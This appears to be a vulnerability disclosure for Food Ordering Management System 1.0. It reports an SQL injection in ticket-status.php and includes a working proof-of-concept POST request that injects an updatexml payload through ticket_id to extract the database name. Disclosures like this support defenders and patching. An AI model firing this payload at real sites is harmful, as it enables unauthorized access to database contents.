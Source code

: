 ## Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/ticket-status.php

## Author
Ma Qiutong, Li Shudong, Lin Zihao

## Description:
Food Ordering Management System 1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/ticket-status.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/ticket-status.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/admin-page.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

status=1233213&ticket_id=123%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get database name 

![CleanShot 2024-09-04 at 17 07 06@2x](https://github.com/user-attachments/assets/80bc7492-a84d-4ab7-bf46-a21b9cc7e4f4)



